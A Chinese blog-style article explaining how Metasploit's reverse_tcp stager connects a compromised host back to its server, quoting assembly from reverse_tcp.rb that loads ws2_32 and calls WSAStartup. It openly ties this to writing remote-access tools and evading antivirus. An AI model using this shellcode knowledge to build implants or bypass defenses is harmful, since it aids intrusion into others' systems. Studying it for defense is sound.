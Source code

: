 # 原创
：  从0到1了解metasploit上线原理

# 从0到1了解metasploit上线原理

在渗透的过程中拿到权限后通常会进行上线cs/msf的操作，我们了解上线的原理后，无论是对编写远控，还是绕过杀软帮助都很大。

### 前言

在渗透的过程中拿到权限后通常会进行上线cs/msf的操作，我们了解上线的原理后，无论是编写远控，还是绕过杀软对我们帮助都很大。

本文会解读metasploit中的代码，详细的解释上线过程/原理。

### 载荷分类

metasploit中有以下三种载荷。

在msf中stage通常指，名字是meterpreter的文件，后缀可以是dll php py jar，比如图中圈起来的meterpreter.x86.dll meterpreter.jar......

### shellcode功能

<br/> msfvenom生成的reverse_tcp 的shellcode其实就是一个stager，这段shellcode负责链接metasploit服务端，然后接收服务端发送的stage并加载，这个stage才是实现meterpreter的载荷。

下面我们来分析一下`reverse_tcp.rb`文件中的汇编代码，这些汇编代码可以理解为reverse_tcp shellcode的汇编状态。<br/> 文件路径:`\lib\msf\core\payload\windows\`

需要注意的是，这个文件在上线中没有任何作用，修改或者删除此文件中的汇编代码并不会对上线的过程造成任何影响。

我们主要关注以下是三个函数:`generate_reverse_tcp asm_reverse_tcp asm_block_recv`

### generate_reverse_tcp函数

先看一下这几行汇编

```
call start ; Call start, this pushes the address of 'api_call' onto the stack. 
#{asm_block_api} start: pop ebp//将asm_block_api函数地址放到ebp中 
#{asm_reverse_tcp(opts)}//与metasploit建立连接 
#{asm_block_recv(opts)}//接收发送的metsrv.dll

```

`call start`将`asm_block_api`函数的地址压入堆栈，接着执行了start:下面的代码，pop ebp是将`asm_block_api`函数的地址放到了ebp寄存器中。

`asm_block_api`函数的功能是根据函数的名称找到函数地址

### asm_reverse_tcp函数

```
reverse_tcp: push '32' ; Push the bytes 'ws2_32',0,0 onto the stack. 
    push 'ws2_' ; ... 
    push esp ; Push a pointer to the "ws2_32" string on the stack. 
    push #{Rex::Text.block_api_hash('kernel32.dll', 'LoadLibraryA')} 
    mov eax, ebp 
    call eax ; 
    LoadLibraryA( "ws2_32" ) 
    mov eax, 0x0190 ; EAX = sizeof( struct WSAData ) 
    sub esp, eax ; alloc some space for the WSAData structure 
    push esp ; push a pointer to this stuct 
    push eax ; push the wVersionRequested parameter 
    push #{Rex::Text.block_api\_hash('ws2_32.dll', 'WSAStartup')} 
    call ebp ; WSAStartup( 0x0190, &amp;WSAData );

```
